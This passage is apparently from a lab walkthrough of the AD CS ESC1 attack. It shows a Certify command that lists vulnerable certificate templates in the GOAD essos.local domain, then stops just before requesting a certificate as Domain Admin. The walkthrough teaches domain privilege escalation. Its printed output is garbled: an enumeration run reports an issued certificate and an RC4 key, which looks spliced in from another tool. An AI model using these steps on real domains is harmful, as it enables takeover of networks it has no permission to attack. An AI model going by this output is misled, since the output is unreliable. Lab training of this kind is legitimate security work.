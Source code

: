 When all these conditions align, you can request a certificate for any user in the domain. It's that simple.

### Exploitation Process

First, let's enumerate vulnerable templates in our GOAD lab. Using Certify to find ESC1 vulnerabilities:

```bash
Certify.exe find /vulnerable /enabled /enrolleeSuppliesSubject

[*] Action: Find certificate templates
[*] Using current user's unrolled group SID list for cross-references
[*] Current user context       : ESSOS\missandei
[*] Using the search base 'CN=Configuration,DC=essos,DC=local'


[!] Vulnerable Certificates Templates :

    CA Name                       : braavos.essos.local\ESSOS-CA
    Template Name                 : ESC1
    Schema Version                : 2
    Validity Period               : 1 year
    Renewal Period                : 6 weeks
    msPKI-Certificate-Name-Flag   : ENROLLEE_SUPPLIES_SUBJECT (0x1)
    mspki-enrollment-flag         : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS
    Authorized Signatures Required: 0
    pkiextendedkeyusage           : Client Authentication
    Permissions
      Enrollment Permissions
        Enrollment Rights           : ESSOS\Domain Users                    Access: Allow
        Enrollment Rights           : ESSOS\Domain Computers                Access: Allow
      Object Control Permissions  : ESSOS\missandei                      Access: Allow

[*] CA Response             : The certificate has been issued.

  KeyType                  : rc4_hmac
  Base64(key)              : F5/CqQX4m7A8VwM5cT6pQg==

  Note: KeyType may show AES256 on fully-patched DCs (ADV240011)
  If KeyType shows AES256, ensure you use a 256-bit compatible CSP (e.g., Microsoft Software Key Storage Provider)
```

Perfect! This output confirms `ESSOS\Domain Users` (which `missandei` is a member of) have enrollment rights on the "ESC1" template, and the template allows an enrollee to supply the subject. *Note: The output also indicates `missandei` has "Object Control Permissions" over this specific template, which would additionally make it vulnerable to ESC4 by her. For ESC1, we primarily focus on the enrollment rights.*

Perfect! Now let's request a certificate for the domain administrator. Request certificate impersonating Domain Admin:
